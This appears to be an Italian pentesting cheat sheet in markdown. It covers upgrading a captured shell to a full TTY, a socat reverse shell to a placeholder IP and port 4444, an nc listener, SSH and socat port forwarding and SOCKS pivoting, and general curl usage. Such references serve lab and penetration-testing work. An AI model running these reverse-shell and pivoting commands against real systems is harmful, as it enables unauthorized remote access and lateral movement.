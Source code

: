 > Utile quando hai solo clipboard o canali “testuali”.

---

## 🧵 TTY & shell upgrade (Linux)

```bash
# Upgrade con Python pty
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Dal lato client
stty raw -echo; fg
export TERM=xterm
# Socat TTY
socat file:`tty`,raw,echo=0 tcp:<IP>:4444
```

> Metti `rlwrap` al listener per frecce e history: `rlwrap nc -lvnp 4444`.

---

## 🔀 Port forwarding & SOCKS

**SSH**

```bash
# Local port forward (accedi a 10.0.0.5:80 tramite localhost:8080)
ssh -L 8080:10.0.0.5:80 user@jump

# Remote port forward (esponi porta del target verso la tua macchina)
ssh -R 8888:localhost:22 user@jump

# SOCKS proxy
ssh -D 1080 user@jump
# poi:
export ALL_PROXY=socks5://127.0.0.1:1080
```

**socat relay**

```bash
# inoltra 0.0.0.0:9000 → 10.0.0.5:80
socat TCP-LISTEN:9000,fork TCP:10.0.0.5:80
```

> Alternative avanzate: chisel, ligolo-ng (solo lab).

---

## 🌐 curl “pronto-produzione”

```bash
# Verboso + header custom + output
curl -v -H 'X-Test: 1' -o out.bin http://host/path

# POST JSON
curl -s -X POST -H 'Content-Type: application/json' -d '{"a":1}' http://host/api

# Proxy
curl -x socks5h://127.0.0.1:1080 http://ifconfig.me
```

---